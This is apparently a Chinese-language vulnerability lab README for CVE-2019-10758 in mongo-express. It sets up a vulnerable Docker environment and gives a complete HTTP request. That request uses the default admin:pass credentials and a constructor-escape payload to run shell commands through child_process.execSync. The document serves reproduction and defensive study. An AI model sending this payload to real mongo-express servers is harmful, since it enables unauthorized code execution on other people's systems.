

# Mongo Express 远程代码执行漏洞（CVE-2019-10758）

mongo-express 是一款 mongodb 的第三方 Web 界面，使用 node 和 express 开发。如果攻击者可以成功登录，或者目标服务器没有修改默认的账号密码（`admin:pass`），则可以执行任意 node.js 代码。

## 漏洞环境

执行如下命令启动一个 0.53.0 版本的 mongo-express：

```bash
docker compose up -d
```

环境启动后，访问 `http://your-ip:8081` 即可查看到 Web 页面。

## 漏洞复现

直接发送如下数据包，即可执行代码 `this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`：

```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```


